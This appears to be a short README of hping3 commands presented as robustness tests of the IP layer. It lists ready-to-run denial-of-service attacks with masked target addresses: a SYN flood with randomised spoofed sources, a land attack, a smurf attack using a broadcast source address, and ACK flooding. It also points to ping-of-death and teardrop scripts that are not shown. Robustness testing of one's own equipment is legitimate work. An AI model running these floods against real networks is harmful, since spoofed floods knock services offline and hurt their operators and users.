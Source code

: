 ##### Scripts for robustness test against IP layer #####

###### required Hping3 ######

###### SYN flooding attack ######
```
 hping3 -i 1000 --rand-source -S -p 22 10.xx.xx.xx
```

###### Land attack ######
> the source and destnation IP is the same 

```
hping3 -S -flood -V -a 10.xx.xx.1 10.xx.xx.1
```

###### smurf attack ######
> source ip is the broadcase address

```
hping3 --flood -a 10.xx.xx.255 -A -p 22 10.xx.xx.xx

```
###### unrelated response ######
> random source IP 

```
hping3 --flood --rand-source -A -p 22 10.xx.xx.xx

```
###### ping of death ######
> refer to pingofdeath.sh 
> send overlarge size ICMP packets

###### teardrop attack ######
> refer to teardrop.sh
> send overlaped fragment packets






